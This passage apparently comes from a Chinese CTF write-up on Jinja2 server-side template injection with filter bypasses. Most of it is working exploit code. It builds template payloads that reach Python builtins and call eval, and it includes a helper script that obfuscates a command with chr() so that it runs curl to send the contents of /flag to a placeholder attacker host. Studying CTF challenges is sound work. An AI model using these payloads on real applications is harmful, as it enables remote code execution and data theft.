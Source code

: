 ```python
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=
%}
{%if x.eval(cmd)%}  # 使用eval函数，执行curl命令进行外带
abc
{%endif%}
```

cmd的参数我们使用脚本生成：

```python
def aaa(t):
	t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
	return t
s='__import__("os").popen("curl http://you_ip?p=`cat /flag`").read()'
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+aaa(str(ord(s[i])))+')%2b'
		else:
			t+='chr('+aaa(str(ord(s[i])))+')'
	return t
print(ccchr(s))
```





### web372

这一题过滤了 `count` 可以使用 `length`过滤器，将上题的 `count`替换为`length`即可



```python
{% set c=(t|length)%}
{% set cc=(dict(e=a)|join|length)%}
{% set ccc=(dict(ee=a)|join|length)%}
{% set cccc=(dict(eee=a)|join|length)%}
{% set ccccc=(dict(eeee=a)|join|length)%}
{% set cccccc=(dict(eeeee=a)|join|length)%}
{% set ccccccc=(dict(eeeeee=a)|join|length)%}
{% set cccccccc=(dict(eeeeeee=a)|join|length)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|length)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|length)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|length)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|length)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=
%}
{%if x.eval(cmd)%}
abc
{%endif%}
```
